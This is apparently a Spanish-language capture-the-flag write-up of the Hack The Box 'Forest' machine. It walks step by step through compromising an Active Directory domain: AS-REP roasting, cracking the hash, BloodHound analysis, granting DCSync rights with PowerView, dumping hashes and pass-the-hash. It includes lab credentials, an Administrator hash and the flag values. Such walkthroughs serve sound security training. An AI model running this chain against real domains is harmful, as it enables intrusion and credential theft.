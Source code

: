 Máquina: Forest
Dificultad: Easy


``sudo nmap 10.10.10.161 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``
![Pasted image 20250313124032](https://github.com/user-attachments/assets/cce45e1d-40db-41e1-8c41-31f49d98e1b7)


``nmap 10.10.10.161 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703 -oN target``
![Pasted image 20250313124107](https://github.com/user-attachments/assets/24248001-b40c-41af-8833-7fe81a49fb73)

domain: htb.local

Vamos a ver un poco más del DC:
``netexec smb 10.10.10.161``
![Pasted image 20250313124206](https://github.com/user-attachments/assets/a171a0fe-eadb-4794-b73e-f08fe7ad8bed)


La máquina se llama FOREST. Y confirmamos que el dominio es htb.local
-> /etc/hosts
![Pasted image 20250313124246](https://github.com/user-attachments/assets/808e346e-b59b-469b-bc41-74a39863a464)


Para enumerar los usuarios del dominio, podemos conectarnos por RPC con null sesion:

``rpcclient -U '' 10.10.10.161 -N``
-> enumdomusers
![Pasted image 20250313124508](https://github.com/user-attachments/assets/f2d07d2e-cab3-43c2-827e-d09b253a340b)


Para guardarnos este listado de usuarios y después hacer el correspondiente tratamiento de los datos, vamos a redirigir el output a users.txt

``rpcclient -U '' 10.10.10.161 -N -c 'enumdomusers' > users.txt``

Si miramos el contenido de users.txt, es exactamente lo mismo que el output que vimos anteriormente:
![Pasted image 20250313124641](https://github.com/user-attachments/assets/a4943d5f-f491-47e0-a0e4-004033203c96)


Vamos a hacer un tratamiento a los datos para quedarnos sólo con lo que está entre los corchetes:

``cat users.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``
![Pasted image 20250313124825](https://github.com/user-attachments/assets/1d620372-a277-4da3-885a-d611c20c18ef)



Con este listado de usuarios, y aunque no tengamos sus contraeñas, podemos, por ejemplo, intentar ASREPROAST:

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``

-> Bingo.
![Pasted image 20250313125028](https://github.com/user-attachments/assets/d2280ce8-d54e-48c7-8da0-d86470d4c5bc)


Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Primero, vamos a averiguar el código de identificación de este tipo de hash (``krb5asrep$23$``) para hashcat:

``hashcat --help | grep -i "kerberos"``
![Pasted image 20250313125209](https://github.com/user-attachments/assets/860c0728-affe-4957-ba93-2a035d275079)


Una vez sabemos el código de identificación, tiramos hashcat con rockyou.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``
![Pasted image 20250313125311](https://github.com/user-attachments/assets/2edaa5b0-c00a-480b-9fee-54b11f98b717)


svc-alfresco:s3rvice

Vamos a validar las credenciales:
``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``
![Pasted image 20250313125410](https://github.com/user-attachments/assets/128cd2ac-ff87-4b95-9049-cf613249ad34)


Son credenciales válidas. Vamos a comprobar si permite winrm.
![Pasted image 20250313125504](https://github.com/user-attachments/assets/2d8ae864-fc25-4152-8595-1cc9c52a1144)

Pwn3d!, por lo que podemos conectarnos vía winRM.

``evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``
![Pasted image 20250313125644](https://github.com/user-attachments/assets/47f4700b-7614-4d4b-bbc9-df7850c80efb)


Estamos dentro de la máquina víctima con el usuario svc-alfresco.

En C:\Users\svc-alfresco\Desktop encontramos la flag de usuario:
![Pasted image 20250313125828](https://github.com/user-attachments/assets/a26fde34-e3c4-485a-9b36-1956ec5ff78d)


user.txt = bf0f56f595904036ffb277db1f60f15a


# PRIVESC

Vamos a compartir bloodhound para ayudarnos en la escalada de privilegios.
-> arrancamos neo4j
``sudo neo4j start
-> arrancamos bloodhound
``bloodhound --no-sandbox &>/dev/null & disown``
Introducimos las credenciales de bloodhound.

Como en este escenario en concreto la víctima tiene el servicio DNS activado, podemos enumerar vía bloodhound-python:

``bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -c all -ns 10.10.10.161``
![Pasted image 20250313132042](https://github.com/user-attachments/assets/a501cfe5-18a0-4dec-9bfb-bcb513ea0dfc)


Una vez hemos generado todos los archivos .json, los subimos desde bloodhound:
![Pasted image 20250313132148](https://github.com/user-attachments/assets/2d05891f-5425-46dd-a4c2-38b7c979b0d7)


![Pasted image 20250313132228](https://github.com/user-attachments/assets/056be20a-6cc5-487a-9660-472a12621384)


Una vez se ha subido correctamente toda la data, buscamos al usuario que tenemos pwneado: svc-alfresco
![Pasted image 20250313132326](https://github.com/user-attachments/assets/be0bc300-fd50-490b-a1bf-87cbc8e7d389)


Y lo marcamos como owned:
![Pasted image 20250313132345](https://github.com/user-attachments/assets/236a4cbf-27f6-45f4-891c-55b622b912b7)

Si miramos la información del nodo de svc-alfresco, apartado Reachable High Value Targets, vemos:
![Pasted image 20250313145534](https://github.com/user-attachments/assets/507067a7-9fe9-4f23-b09d-593973a8d8a5)


svc-alfresco forma parte de "Service Accounts", que a su vez forma parte de "Privileged It Accounts", que a su vez forma parte de "Account Operators".

Si miramos la información del nodo de "Account Operators" + Reachable High Value Targets:
![Pasted image 20250313145759](https://github.com/user-attachments/assets/8eac1c8b-5880-47fb-9c6e-29920d985cf0)


Vemos que Accounts Operators tiene GenericAll sobre Exchange Windows Permissions, que a su vez tiene WriteDacl sobre el dominio htb.local:

Click derecho -> help
![Pasted image 20250313145841](https://github.com/user-attachments/assets/754baee3-e13f-44b3-94ce-1839898e69a6)


GenericAll sobre Exchange Windows Permissions:
![Pasted image 20250313145901](https://github.com/user-attachments/assets/377eeedf-f904-4fc7-9510-40c5441ef6f1)


WriteDacl sobre el dominio:
![Pasted image 20250313153133](https://github.com/user-attachments/assets/9dd7375f-0129-49da-94cb-4e7eb4c7cf98)


En el apartado "Windows Abuse" nos explica el paso a paso.
Para poder abusar de este privilegio a través de Add-DomainObjectAcl tenemos que compartir la herramienta powerview.ps1, para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

Creamos usuario pwn:
![Pasted image 20250313155139](https://github.com/user-attachments/assets/ac343399-b976-450b-b7b6-e9dcf5a596c8)


Le metemos en el grupo "Exchange Windows Permissions"
![Pasted image 20250313155200](https://github.com/user-attachments/assets/7d6bbb74-0109-4c93-9bda-3dad81c731ee)


Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```

Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:
``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:
``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso.
	Aquí bloodhound propone ejecutar el anterior comando identificando al dominio (htb.local) de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza el ataque de DCSync desde el usuario pwn, nos salta error mencionando el Distinguised name.
	Error:
		![Pasted image 20250313163246](https://github.com/user-attachments/assets/dfff53eb-9410-4895-9bee-2b3e77d1259e)

	Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:
	![[Pasted image 20250313163310.png]]

Esto se soluciona identificando al dominio como:
``-TargetIdentity "DC=htb,DC=local"``
![Pasted image 20250313163310](https://github.com/user-attachments/assets/deb76d59-7261-43ff-8c98-daaff6742a9e)



Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``
![Pasted image 20250313161100](https://github.com/user-attachments/assets/3b495c41-27ef-4da6-969b-247e2b320e59)


Nos aparecen todos los hashes NTLM, pero a nosotros nos interesa especialmente el del usuario Administrator.

Validamos el hashNTLM con netexec:
``netexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``
![Pasted image 20250313161236](https://github.com/user-attachments/assets/8c11b46c-783e-43c3-9115-002f084c3a39)

Listo.

Dado que conocemos el hash NTLM válido de Administrator, y como nos pone Pwn3d, podemos ingresar vía psexec (para acceder como NTAuthority\System) o wmiexec (para acceder como Adminsitrator), o winRM a través de la técnica Pass The Hash.

- psexec:
``impacket-psexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``
![Pasted image 20250313161653](https://github.com/user-attachments/assets/80c51f5a-09e1-490e-9ae8-648b8df85f29)


- wmiexec: 
``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'
![Pasted image 20250313161707](https://github.com/user-attachments/assets/dd55e932-5137-458e-ab18-741be72165ec)


- evilwinrm:
Primero deberíamos validar que nos podemos conectar por winrm
``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![Pasted image 20250313161332](https://github.com/user-attachments/assets/28ecf169-59bd-4be2-b576-882f3bf2057d)


``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![Pasted image 20250313161907](https://github.com/user-attachments/assets/c68e5a25-7f45-461b-8d64-581634adcac7)


Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt

![Pasted image 20250313162055](https://github.com/user-attachments/assets/2280f8a3-2bcd-4c19-9dbd-2f5cbab2afa4)


root.txt = fba540a19e1959ee5e4fea99d18e01ce
